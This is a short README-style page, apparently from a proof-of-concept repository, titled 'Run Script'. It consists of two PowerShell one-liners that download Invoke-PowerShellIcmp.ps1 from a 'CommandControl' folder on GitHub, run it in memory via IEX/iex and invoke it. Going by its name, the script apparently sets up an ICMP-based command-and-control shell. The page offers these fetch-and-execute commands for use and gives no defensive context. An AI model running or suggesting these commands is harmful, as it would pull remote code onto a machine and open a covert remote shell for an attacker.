 
# Run Script

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/cyber-rangers/PoCs/main/CommandControl/Invoke-PowerShellIcmp.ps1");Invoke-PowerShellIcmp



. { iwr -useb https://raw.githubusercontent.com/cyber-rangers/PoCs/main/CommandControl/Invoke-PowerShellIcmp.ps1 } | iex; Invoke-PowerShellIcmp